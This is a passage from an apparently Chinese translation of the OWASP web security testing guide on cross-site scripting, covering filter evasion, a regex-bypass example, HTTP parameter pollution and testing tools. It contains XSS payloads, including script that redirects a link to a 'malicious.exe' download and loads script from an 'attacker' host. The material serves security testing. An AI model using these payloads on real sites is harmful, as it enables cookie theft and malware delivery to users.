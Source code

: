 ```http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName(“a”);AllLinks[0].href = “http://badexample.com/malicious.exe”; }</script> ```
###### 例4：不同的语法和编码

在许多例子中，可能基于签名的过滤器能简单地检测的混淆攻击。你可以尝试插入不希望有语法或编码变化。如果有代码返回，说明浏览器容忍了这些变化，而且它们可能也能够被过滤器所接受。

例如：
```"><script >alert(document.cookie)</script >```
```"><ScRiPt>alert(document.cookie)</ScRiPt>```
```"%3cscript%3ealert(document.cookie)%3c/script%3e```

###### 例5

假设开发人员使用下列代码保护输入：
```
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```
正则表达式会检查```<script [anything but the character: '>'] src```是否被插入。可以过滤如下的xss：```<script src="http://attacker/xss.js"></script>```。 但是它可能会在使用">"时被绕过，例如：```http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>```

###### 例7 HTTP 参数污染（HPP）
绕过检查的另一个方法是HTTP 参数污染。这种技术最新由Stefano di Paola和Luca Carettoni 在2009年的会议上提出。这种免杀技术由在有同样名称的多个参数间的分片攻击向量构成。操作方法依赖于浏览器如何解析这些参数。所以这类免杀不总是有效。如果测试环境将所有同名参数连接在一起，那么攻击者可能会使用此类技术绕过基于模式的安全机制。常规攻击如：```http://example/page.php?param=<script>[...]</script>```，而使用 HPP的攻击为:```http://example/page.php?param=<script&param=>[...]</&param=script>```。

#### 灰盒测试

类似于黑盒测试，但有了开发人员的帮助，可以查看源代码了解安全过滤机制。

### 工具

- PHP Charset Encoder(PCE) This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- HackVertor It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- XSS-Proxy XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- ratproxy A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- Burp Proxy Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- OWASP Zed Attack Proxy (ZAP) ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

## 存储型跨站脚本测试 Testing for Stored Cross Site Scripting 

ID : wstg-inpv-02

### 概述

存储型跨站点脚本（XSS）是最危险的XSS类型。允许用户存储数据的Web应用程序可能会遭受此类攻击。本节说明了存储型跨站点脚本注入和相关利用场景的示例。
```